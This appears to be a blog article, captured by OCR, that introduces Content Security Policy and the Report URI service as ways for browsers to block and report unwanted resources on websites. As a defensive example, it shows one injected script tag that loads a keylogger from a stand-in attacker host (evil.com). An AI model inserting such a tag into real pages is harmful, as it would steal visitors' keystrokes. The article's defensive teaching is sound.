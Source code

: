 ## Leveraging the browser to improve the security of the web 

Use of the Web is exploding. It has been exploding for some time and
will continue to do so for probably years to come. In our ever more
connected world, we become increasingly dependent on connected
technologies in every aspect of our day to day lives. Shopping, banking,
socialising and even watching movies requires online connectivity where
we open our browsers and use websites to do the things we want to do. As
websites handle increasing amounts of personal and sensitive information
they need to step up their security in a big way, but I can tell you
from experience this is no easy task. Fortunately, as the web has
evolved, this problem has been recognised and the wider industry is
taking steps to help us make security easier. What if I told you there
was a way to have possibly thousands, hundreds of thousands or even
millions of people ready to notify you if something goes wrong on your
website? What if the browser of every visitor to your website knew that
there was a problem and would tell you as soon as they spotted it? This
isn't some far-fetched wish of a future world, this is reality, right
now! Using a combination of modern features built into browsers you can
have each and every one of the browsers that visit your site perform a
series of checks and notify you about a huge range of possible problems,
automatically and in real-time. Welcome to the future, let me introduce
you to Report URI.

 

All modern browsers now come with a selection of features that can help
you quickly and drastically improve the security of your website. This
is a benefit to both the site operator and their visitors. By working
together this duo can help each other to take big steps forward. The
first feature that sites can leverage is Content Security Policy (CSP).
Originally created many years ago to help fight off Cross-Site Scripting
(XSS) attacks, CSP has grown to include a range of benefits that should
be attractive to any site operator. When a browser loads a webpage,
there are many other resources that it has to download to build the
page. Those resources could be images, scripts, stylesheets, iframes and
much, much more. If the browser sees an HTML element that instructs it
to download a resource, it will dutifully do so. The problem arises when
that element isn't supposed to be there, what if was put there by
mistake, or even worse, it was put there maliciously by a hacker? Take
the following script tag:

 

\<script src=<https://evil.com/keylogger.js>\>\</script\>

 

Raise your hand if you'd like your browser to block this file. Everyone?
Thought so! This script tag is probably not going to do nice things and
whilst you or I can look at it and make that assessment, the browser
can't. This is a valid script tag and the browser will download and run
the script, probably leading to some serious problems. What we need to
do is tell the browser which scripts are supposed to be on our site and
which ones aren't, this is where CSP comes in handy. With a CSP you can
tell the browser exactly what's supposed to be on your site and what
isn't. The CSP itself is delivered as an HTTP response header, so it's
really easy to get started. Set the header on your website and inside
the header, you declare the policy you'd like the browser to enforce. 
